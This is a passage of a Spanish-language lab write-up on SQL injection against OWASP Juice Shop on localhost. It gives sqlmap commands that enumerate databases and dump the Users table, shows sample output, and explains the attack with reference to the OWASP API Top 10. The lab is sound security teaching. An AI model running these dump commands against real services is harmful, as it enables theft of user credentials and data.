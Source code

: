 ### Opción B: Usando URL directamente

```bash
cd sqlmap
python sqlmap.py -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs
```

---

## 6. Extracción de Datos

Si SQLMap identifica la base de datos `juice_shop`, puedes extraer los datos de la tabla `Users`:

```bash
python sqlmap.py -u "http://localhost:3000/rest/products/search?q=apple" -D juice_shop -T Users --dump
```
![tablas](/arqui251-grupo2/0/0.10/assets2/tablas.png)
---

## 7. 📊 Resultados del Análisis



SQLMap mostrará bases de datos como:

```
[*] sqlite_master
[*] juice_shop
```

Y mostrará contenido sensible desde tablas como:

```
[*] Users
```
![users](/arqui251-grupo2/0/0.10/assets2/users.png)
---

## 8. Explicación Técnica

- El endpoint `/rest/products/search` es una API pública tipo **GET**.
- Se inyectó código SQL en el parámetro `q` para alterar la lógica de búsqueda.
- **Burp Suite** permitió interceptar y modificar manualmente la solicitud.
- **SQLMap** automatizó la explotación y extracción de información.

### Relación con OWASP API Security Top 10

- **A3: Injection**
- **A1: Broken Object Level Authorization (BOLA)** *(potencial en otros endpoints)*

---

## Resumen de Comandos
